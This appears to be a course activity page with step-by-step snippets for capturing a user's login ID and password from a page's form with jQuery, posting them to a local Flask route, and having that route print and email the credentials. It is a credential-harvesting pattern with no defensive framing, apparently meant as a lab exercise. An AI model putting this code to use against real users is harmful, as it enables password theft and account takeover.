 Email the Credentials
===========================




In this activity, you will learn to send an email with the credential of the user.




<img src= "https://s3.amazonaws.com/media-p.slid.es/uploads/1525749/images/10986006/SA2.gif" width = "100%" height = "auto">




Follow the given steps to complete this activity:




1. Fetch the credentials.
* Open the `index.html` file.
* Fetch the credentials by accessing the input fields when the login button is clicked using jQuery.
~~~sh
        $(".login-button").click(function(){
                var userLoginId = $("#id_userLoginId").val();
                var userPassword = $("#id_password").val();
~~~


2. Send the credentials.
* Send the credentials by creating an AJAX request.
~~~sh
$.ajax({
     url: 'http://127.0.0.1:5000/getPassword',
     data: { id: userLoginId, password: userPassword},
                });
~~~


3. Email the credentials.
* Open the `proxy-server.py` file.
* Send the credentials by calling the function to send the email.
~~~sh
@app.route('/getPassword', methods=['GET', 'POST'])
def get_password():
    user_id = request.args.get('id')
    user_password = request.args.get('password')
    print("Username and password: ", user_id, user_password)
    send_email(user_id, user_password)
    return redirect("/")
~~~
* Save and run the code to check the output.
